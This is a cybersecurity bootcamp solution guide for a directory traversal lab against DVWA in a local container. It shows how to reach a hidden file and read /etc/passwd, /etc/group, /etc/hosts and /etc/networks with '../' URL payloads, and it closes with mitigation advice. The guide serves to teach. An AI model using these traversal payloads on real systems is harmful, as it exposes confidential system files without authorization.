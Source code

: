 ## Solution Guide: Directory Traversal 

In this activity, you were tasked with testing the intended purpose of an application to view back-end files from the web application's server. You were then tasked with manipulating the URL with the dot-slash method to view confidential and hidden files on the web application server.

---

1. Test the intended use of the web application.

    - View the contents of `file1.php`.
      
      - Select the link to `file1.php`, and note the following:
      
          - The URL changes to <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.
          
          - Note that the parameter references the file that was selected: `?page=file1.php`.
        
          - The content on the webpage was displayed:
      
              `Hello admin
              Your IP address is: 192.168.13.1`
          
      - Select the other links (`file2.php` and `file3.php`) and note their URL and webpage changes.
      
      - Note that the intended purpose of this application is to provide a user access to those three files only. 

2. On your web lab, open the terminal. 

      - Connect to the container of the Replicants webpage:

        - `docker exec -it dvwa bash`
      
      - Once you have connected to the container, run the following command to access the directory where `file1.php`, `file2.php`, and `file3.php` are located:

        - `cd /var/www/html/vulnerabilities/fi`

      - View the files in this directory using the `ls` command.

        - Note that you should see the files `file1.php`, `file2.php`, and `file3.php`.

      - View the contents at the top of `file2.php`:
        
        -  `head file2.php`
      
        - Note how this file contains HTML that matches what you saw on the Replicants website when you clicked on `file2.php`:
          
          - `<em>I needed a password eight characters long so I picked Snow White and the Seven Dwarves.</em>\" ~ Nick Helm<br /><br />`

        - Take note of the other `file<#>.php` file located in this directory. 

    - **Solution:** The other `file<#>.php` file located in this directory is `file4.php`.
 
3. Test the unintended consequences of this application.
 
    - We saw another `file<#>.php` file in that directory. That file does not have a link to access on Replicants webpage. Try to access it by modifying the parameter of the URL.

      - **Solution:** To view `file4.php`, change the URL to <http://192.168.13.25/vulnerabilities/fi/?page=file4.php>.

      - The parameter changed to `?page=file4.php`.
        
      - The webpage will display the following message:
          
            File 4 (Hidden)
            Good job!
            This file isn't listed at all on DVWA. If you are reading this, you did something right ;-)
          
4. Traverse through other paths. 

    - In Part 3, you modified the parameter of the URL to view a hidden file. Try to access the `passwd` file by modifying the parameter of the URL again.

    - **Solution:** To view the `passwd` file, you need to use the dot-slash method.
      
      - First we need to determine how many directories back the top of the directory structure is. Because the files are located in `/var/www/html/vulnerabilities/fi#`, they are five files deep.

        - To go back five directories, we use the dot-slash method five times. Then we go forward to access the `/etc/passwd` file:

          - `../../../../../etc/passwd`

        - The complete URL will look like the following, when we place the payload as the parameter: <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/passwd>.

      - This will display the `/etc/passwd` file at the top of the page:

          ```
            root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin       sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
        ```

      - Note that if we don't know how many directories back to go, we keep testing payloads until we see the `passwd` file. For example: 

        -  `../etc/passwd`

        -  `../../etc/passwd`

        - `../../../etc/passwd`

        - `../../../../etc/passwd`

5. **Bonus:** Previously, you modified the URL to view the file `passwd`. Try to access other files (such as the hosts, group, or networks) using the same techniques.

    - If you can access the files, research online and document what data those files contain.

    - **Solution:** To view the files for hosts, group, or networks, you need to use the same dot-slash method.

      - The URLs for each of these are as follows:

        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/group>
      
        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/networks>
      
        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/hosts>
        
      - These files contain the following information:

        - `group`: Contains all the groups and members for that linux server.

        - `networks`: Translates IP addresses to network names.
        
        - `hosts`: Maps host names to IP addresses.
      
6. Answer the following mitigation strategy questions: 

    - Describe to your management how a malicious user could take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

        - The impact could include:

          - Display of confidential data such as user information, system accounts, services being ran, networking information (IP addresses).

          - Use of all of the confidential information to apply other types of attacks.

    - Describe how you would mitigate the vulnerabilities you just exploited.

      - Mitigation options can include:

        - Server-side validation that does not allow selection of unintended files.

        - Segregation of confidential files from the web server and accessible directories.

        - Permissions to restrict web server account accessibility.
        
      - Refer to the following page for a more comprehensive list of directory traversal mitigations: 

        - [Hacksplaining: Preventing Directory Traversal](https://www.hacksplaining.com/prevention/directory-traversal)    

  
___

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
